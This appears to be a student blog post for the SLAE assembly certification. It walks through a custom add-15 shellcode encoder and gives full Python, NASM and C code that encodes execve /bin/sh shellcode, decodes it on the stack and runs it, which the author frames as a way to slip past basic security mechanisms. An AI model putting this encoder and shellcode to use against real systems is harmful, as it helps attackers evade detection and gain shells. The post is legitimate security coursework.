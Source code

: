 ```yaml
---
title: SLAE Exam 4 Custom Encoder
category: Security
tags: [slae, shell, assembly, programming]
---
```


It's a good day to be back in the lab. I'm stuck chugging some solid H20 today while taking a look at writing custom encoders for our shellcode. Today we'll look at the difference in encoding vs encrypting, and how to make a simple custom encoder to bypass basic security mechanisms.


## Problem Statement

* Create a custom encoding scheme like the "Insertion Encoder" shown to us
* Write PoC using execve-stack as the shellcode to encoe with your schema and execute

Let's get right into it.

## Encoding vs. Encrypting

Before we start I just want to make clear the differences between encoding something, and encrypting something. When you encode data, you transform it into another format using a scheme that is publicly available and that allows anyone to decode the information. With encryption, you modify data in such a way that only individuals with known values can reverse the transformation.

An example of encoding would be base64 encoding. Anyone can look up how to base64 decode something to access the originally encoded data. An example of encryption would be a rotational cipher, in which each character of a piece of data is rotated X number of times. This means that whoever is decrypting the data MUST know the value of X in order to retrieve the original data.

## Insertion Encoder

During the SLAE, an example was given called the insertion encoder. This encoder would take a set of hex data, and insert the value `0xAA` after each hex value in the given data. See the below transformation:

`0x12 0xAB 0xAC 0x01`

`0x12 0xAA 0xAB 0xAA 0xAC 0xAA 0x01 0xAA`

It's a pretty simple concept. And to get the original data back out, one would just traverse the data using 2 pointers, and moving the characters back to their original place!


## Custom Encoder

For this assignment we had to come up with a custom encoding scheme. I like the number 15, so I will publicly declare that the _CoffeNCoding_ scheme will take each data element and add the value of 15 to it in order to get an encoded version of the data.

You may be confused as to why this isn't exactly the same as the rotational cipher (which is an encryption algorithm) that I mentioned before. The main difference here is that I am publicly declaring this as an encoding scheme, in which everyone knows the value of which to add. If the value 15 was a secret, then this would be considered an encryption scheme.


#### Building an Encoder

We'll use python to build a quick encoder for our execve-stack shellcode.

**_CoffeeNcoder.py_**

```python
#!/usr/bin/python

# Python Coffee Encoder

COFFEE=15
COFFEE_HEX='0f'

# execve-stack /bin/sh
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""
stack = []
new_row = []
row = 0

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    encoded += '\\x'
    encoded += '%02x' % (x+15)

    encoded2 += '0x'
    encoded2 += '%02x,' % (x+15)

    # Print these in sets of 4 so we can easily paste to push onto stack
    new_row.insert(0, '%02x' % (x+COFFEE))
    if len(new_row) == 4:
        stack.insert(0,new_row)
        new_row = []
        row += 1

if len(new_row):
    for i in range(0, 4-len(new_row)):
        new_row.insert(0, '%02x' % COFFEE)
    stack.insert(0, new_row)
    row += 1

# We need to pad the last row with null (coffee_hex) values
if not stack[0][0] == COFFEE_HEX:
    new_row = []
    for i in range(0, 4):
        new_row.insert(0, '%02x' % COFFEE)
    stack.insert(0, new_row)
    row += 1

print('{}\n'.format(encoded))

print('{}\n'.format(encoded2))

for i in range(0, row):
    print('0x{}'.format(''.join(stack[i])))

print '\nLen: %d' % len(bytearray(shellcode))
```

You'll notice that we pad our result with the `0x0F` value. This is so that our decoder will know when to stop decoding. When our decoder generates a value of 0 (`0x0F` - `0x0F`), it will know it has reached the end of the decoding process.

Giving it a test run, we see that our execve-stack shellcode transforms as follows:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

`\x40\xcf\x5f\x77\x3e\x3e\x82\x77\x77\x3e\x71\x78\x7d\x98\xf2\x5f\x98\xf1\x62\x98\xf0\xbf\x1a\xdc\x8f`


#### Building the Decoder

Now that we have our encoded shellcode, we need to be able to decode it and pass execution to it. The basic algorithm for this will be to start at the beginning, and subtract 15 from each element until we hit a value that generates 0. Once this happens, pass the execution to the point where we started decoding. Let's see what that looks like in assembly.

**_assignment4.nasm_**

```
; Filename: assignment4.nasm
; Author:  Adam Brown
; Website:  https://coffeegist.com
;
;
; Purpose: Create a custom encoder/decoder for the SLAE exam

global _start

section .text
_start:

  ; Push shellcode onto stack in reverse order
  push 0x0f0f0f8f
  push 0xdc1abff0
  push 0x9862f198
  push 0x5ff2987d
  push 0x78713e77
  push 0x77823e3e
  push 0x775fcf40

  mov esi, esp ; Get address of first byte of shellcode
  mov eax, esi ; Save it

  jmp short decode ; Start decoding from first byte

decoder_loop:
  inc esi

decode:
  sub byte [esi], 0xf
  jnz short decoder_loop

  jmp eax  ; Jump to first byte of decoded shellcode
```


Here we see that we push our shellcode onto the stack, and then save a pointer to the top of the stack in eax. Now, we proceed to move through our shellcode, subtracting `0xF` until the zero flag is set. When this happens, we jump to eax, which is pointing to the first byte of our shellcode.


#### Execution

All that's left is to generate our full shellcode with the decoder stub, and throw it in our C program for a simulated code execution exploit.


**_shellcode.c_**

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x68\x8f\x0f\x0f\x0f\x68\xf0\xbf\x1a\xdc\x68\x98\xf1\x62\x98\x68\x7d\x98\xf2
\x5f\x68\x77\x3e\x71\x78\x68\x3e\x3e\x82\x77\x68\x40\xcf\x5f\x77\x89\xe6\x89
\xf0\xeb\x01\x46\x80\x2e\x0f\x75\xfa\xff\xe0";

void main() {
  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();
}
```

## Wrapping Up

This was a fairly simple assignment, but one that could be leveraged to beat certain systems in a pinch! This technique could be expounded on quite a bit, but I'll leave that as an exercise to you! Have fun, grind responsibly, and happy hacking!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
